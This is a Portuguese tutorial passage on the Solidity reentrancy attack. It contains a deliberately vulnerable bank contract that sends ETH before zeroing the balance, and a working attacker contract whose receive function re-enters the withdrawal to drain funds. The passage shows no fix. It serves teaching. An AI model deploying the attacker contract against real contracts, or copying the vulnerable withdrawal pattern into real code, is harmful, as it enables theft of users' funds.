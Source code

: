 1. **Contrato Vulnerável**: Executa uma função que envia ETH ou tokens antes de atualizar variáveis de estado (ex.: `saldos[msg.sender] = 0`).
2. **Contrato Malicioso**: Usa sua função `fallback` ou `receive` para re-entrar na função vulnerável, repetindo a chamada externa antes que o estado seja atualizado.
3. **Drenagem de Fundos**: O ciclo continua até esgotar os recursos do contrato ou atingir limites (ex.: gas).

### **Exemplo de Código Solidity Vulnerável**
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract BancoVulneravel {
    mapping(address => uint) public saldos;

    function depositar() public payable {
        saldos[msg.sender] += msg.value;
    }

    function sacar() public {
        uint valor = saldos[msg.sender];
        require(valor > 0, "Sem saldo!");
        // Vulnerável: Envia ETH ANTES de atualizar saldo
        (bool sucesso, ) = msg.sender.call{value: valor}("");
        require(sucesso, "Falha no envio");
        saldos[msg.sender] = 0; // Atualiza DEPOIS
    }
}
```

**Como o ataque funciona?**  
- Um atacante cria um contrato malicioso com uma função `fallback` ou `receive` que chama `sacar()` novamente.
- O atacante deposita ETH (ex.: 1 ETH), chama `sacar()`, e o contrato envia 1 ETH.
- Antes de zerar `saldos[msg.sender]`, a função `fallback` do atacante re-entra em `sacar()`, pedindo mais 1 ETH, pois o saldo ainda é 1.
- O ciclo se repete até drenar o contrato (ou gas acabar).

**Exemplo de Contrato Malicioso**:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Atacante {
    BancoVulneravel public banco;

    constructor(address _banco) {
        banco = BancoVulneravel(_banco);
    }

    function atacar() public payable {
        banco.depositar{value: 1 ether}();
        banco.sacar();
    }

    receive() external payable {
        if (address(banco).balance >= 1 ether) {
            banco.sacar(); // Re-entra!
        }
    }
}
```

